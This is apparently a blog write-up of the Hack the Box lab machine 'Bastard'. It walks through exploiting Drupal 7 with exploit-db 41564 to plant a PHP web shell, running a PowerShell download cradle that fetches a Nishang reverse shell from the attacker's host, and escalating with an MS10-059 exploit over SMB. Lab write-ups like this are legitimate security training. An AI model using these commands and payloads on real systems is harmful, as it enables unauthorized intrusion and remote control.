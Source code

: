 ```yaml
---
title: Bastard - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bastard.png
---
```

---
title: 2024-10-12-Bastard - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Bastard.png
---
![Image](/assets/Bastard.png)

Bastard is a box that is initially frustrating. This machine tests ones ability to enumerate thoroughly AND simply, transfer files in different ways, and doctor downloaded exploits to suit one's needs. 

### Scan
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).
Not shown: 997 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds



---------------------Starting Nmap Basic Scan---------------------
                                                                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 07:24 EDT
Nmap scan report for 10.10.10.9
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.53 seconds

```

### Enumeration

![Image](/assets/Screenshot 2024-09-14 at 12.39.22 PM.png)

We are greeted with a login portal when we visit the sight. Trying a few common credentials yield no access, so I opted to look through the `feroxbuster` scan I had running in the background. Most of the directories are off limits with a `403 Error`, meaning that we'll need to find something else.

Doing research, I looked at my `nmap` scan again to see version numbers of the services running. This is a part of the simple, yet thorough enumeration that we need to "make haste slowly." `Microsoft IIS 7.5` didn't yield much compared to what I found for `Drupal 7`, which yielded a RCE vulnerability.

![Image](/assets/Screenshot 2024-09-14 at 12.45.19 PM.png)

We can cross check this with `exploit-db 41564` or `searchsploit Drupal` and sure enough, we've got a script here that uses SQL injection to get the contests of the cache for the current endpoint along with the admin hash and credentials. Then, the script alters the cache to allow file writing, and follows this up by posting a POC at the designated endpoint. 

![Image](/assets/Screenshot 2024-09-14 at 12.51.49 PM.png)
![Image](/assets/Screenshot 2024-09-14 at 1.14.43 PM.png)

We know the URL, and we know that we'll need to use a PHP one-liner to get our remote code execution ability, but we need to figure our where the API endpoint is. `/rest_endpoint` is not available on the box, but `/rest`is! There are two ways to figure this out. Trial and error is how I came upon it, but using a directory busting tool works as well, providing you give it the time!

We want to use the POC instead to write a PHP one-liner that grants us RCE on the machine. So, we can substitute with this in order to make sure our uploaded file works:

`'<?php system($_REQUEST["cmd"]); ?>'`

Also, don't forget to alter the endpoint! The completed script should look like this, with emphasis on the url, endpath, and file:

![Image](/assets/Screenshot 2024-09-14 at 1.31.26 PM.png)

### Initial Access

Before we run our exploit, we also need to make sure that we've installed php-curl on our machine. We can use `apt-get install php-curl`. Now, we can run our exploit with `php 41564.php`

![Image](/assets/Screenshot 2024-09-14 at 1.32.28 PM.png)

We get an endpoint that tells us where the file's been written. When we visit, make sure to bring up the request in Burp, where we can edit our requests in real time. Append your malicious file name with `?cmd=systeminfo`, and we can see that our attempt for RCE has worked!

![Image](/assets/Screenshot 2024-09-14 at 1.38.02 PM.png)

One thing to note... We've got two files noted `session.json` and `user.json`. These provide cookie information and a username and hashed password for the administrator account. We could take these and try to gain access this way, but we've already got a shell... Maybe another day.

Ok, so now, we can call for a real shell, and the easiest way to do this is with Nishang's Invoke-PowerShellTcp, as we're dealing with an x64 Windows Machine and we want as much functionality as possible. Let's edit the file to include the correct parameters for our future listener.

Add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.4.3 -Port 4444` to the very end of the file. You can copy in the `vim` editor with `yy` and paste with `d`. 

Once we have our file ready, we need to serve it with a Python server from the same directory that it lies, and set up a wrapped listener:

`python3 -m http.server 8000`
`rlwrap nc -nlvp 4444`

Let's get back and use Burp to create our request. MAKE SURE TO URL ENCODE. Additionally, make sure that the spelling is exact when posting the file and path - capitalization and all :

`powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

![Image](/assets/Screenshot 2024-09-14 at 2.44.26 PM.png)

We should get access on our listener.

![Image](/assets/Screenshot 2024-09-14 at 2.44.45 PM.png)

We can navigate to `/Users/dimitris/Desktop` in order to find our user flag.

`USER:d187f6b9f9bc6b5df88b7f607e720776`

### Privilege Escalation

In order to escalate, we can check things out with `ps`  and `systeminfo`. We can also serve an enumeration script from our Kali machine. I like `winpeas` and `winenum`, but for this case, `sherlock` was the best option, as it gave us a list of possible CVE's, which are very common on these lab machines.

Find Sherlock with `locate Sherlock.ps1` and bring it to the working directory. Serve the file with our SMB server this time, and download on the victim machine. Locate `"smbserver.py` first (usually in Impacket) and move it to working directory before running these commands:

`KALI - python3 smbserver.py share /home/li0t/Desktop/HTB/Bastard`
`VICTIM - copy \10.10.14.3\share\Sherlock.ps1`

Now, no matter how hard I tried, I couldn't get permission on the victim machine to download files and run them, so I took a page from Rana Khalil and exported `systeminfo` into the `windows-exploit-suggester` on my Kali machine. To do this, we need to update our tool and query the database. First, copy the script to `pwd`:

`./windows-exploit-suggester.py --update`
`./windows-exploit-suggester.py -d 2024-09-14-mssb.xls -i sysinf.txt`

Now, we can get MS tags for exploits, and run through them to see if any work. 

![Image](/assets/Screenshot 2024-09-14 at 3.22.52 PM.png)

We'll go with this one, MS10-059, as I've tried unsuccessfully with Kernel exploits here before. There is a compiled version that can be found on github [here](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled) Once this is in our working directory, or the same place as our SMB server, we can share between the systems. I think it's important to note, I've only gotten this machine rooted with this .exe file used in this context. Even my privesc scripts of the same type don't register, and I dunno why...

Once we're ready, set up a listener 

`rlwrap nc -nlvp 4445`

Then, go onto the compromised machine and use:

`\10.10.14.3\share\FILE.exe 10.10.14.3 4445`

![Image](/assets/Screenshot 2024-09-14 at 3.38.47 PM.png)

Cooking.

`ROOT:b3056a76131b8c975a906cff1283ba05`

#windows #manual #medium
